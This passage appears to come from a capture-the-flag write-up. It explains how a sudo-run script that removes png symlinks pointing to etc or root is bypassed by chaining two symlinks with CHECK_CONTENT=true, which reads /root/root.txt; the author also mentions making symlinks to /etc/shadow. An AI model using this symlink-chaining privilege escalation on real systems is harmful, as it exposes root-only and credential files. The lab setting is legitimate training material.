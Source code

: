 ```bash
```

In short, the script checks png files for dangerous symlinks.

If they point to `etc|root` they are removed.

I played around with the script a bit, created symlinks to files like `/etc/shadow` and looked at how the script works exactly.

As expected with my first attempts I get the following:

![Screenshot16](./screenshots/16.png)

<br>

### Bypass

After looking at the code I came up with the following bypass.

The script offers us the possibility that it displays the content by using a `CHECK_CONTENT` variable, which I set to `true` in my terminal.

And via two linked symlinks I was able to access sensitive files.

```bash
export CHECK_CONTENT=true
ln -s /home/bob/flag.txt /home/bob/evil.png
ln -s /root/root.txt /home/bob/flag.txt
sudo -u root /usr/bin/bash /opt/ghost/clean_symlink.sh /home/bob/evil.png
```

![Screenshot17](./screenshots/17.png)

And the first flag of the new year was taken down - Happy New Year! :)

<br>



